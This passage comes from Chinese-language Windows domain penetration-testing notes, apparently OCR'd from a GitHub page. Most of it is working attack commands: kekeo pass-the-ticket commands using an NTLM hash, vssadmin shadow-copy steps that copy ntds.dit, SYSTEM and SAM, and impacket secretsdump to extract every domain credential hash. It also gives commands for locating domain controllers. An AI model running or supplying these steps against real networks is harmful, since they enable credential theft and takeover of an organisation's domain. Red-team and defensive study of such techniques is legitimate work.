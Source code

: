 > > dir \\\计算机名
>
> ### pass the ticket
>
> 不需要管理员权限
>
> > kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash"
>
> 导入ticket：
>
> > kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"
>
> 程序地址：
>
> > https://github.com/gentilkiwi/kekeo
>
> ### ntds.dit
>
> vssadmin 方法 >= win 2008
>
> 查询当前系统的快照
>
> > vssadmin list shadows
>
> 创建快照
>
> > vssadmin create shadow /for=c:
> >
> > 获得 Shadow Copy Volume Name 为 ``\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47``
>
> 复制 ntds.dit, copy 第一个参数为创建快照时位置:
>
> > copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit   
>
> 复制 system 和 sam
>
> > copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
> >
> > copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\
>
> 删除快照
>
> > vssadmin delete shadows /for=c: /quiet
>
> 获取将以上 system，sam, ntds.dit 放到 /root/ntds_cracking/ 下，运行	
>
> > python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL
>
> py 地址:
>
> > https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py
>
> 域渗透——获得域控服务器的 NTDS.dit 文件
>
> > http://www.4hou.com/technology/10573.html
>
> ### dc 定位
>
> > nltest dclist:xx.xx
> >
> > net time /domain
> >
> > systeminfo 中的 domain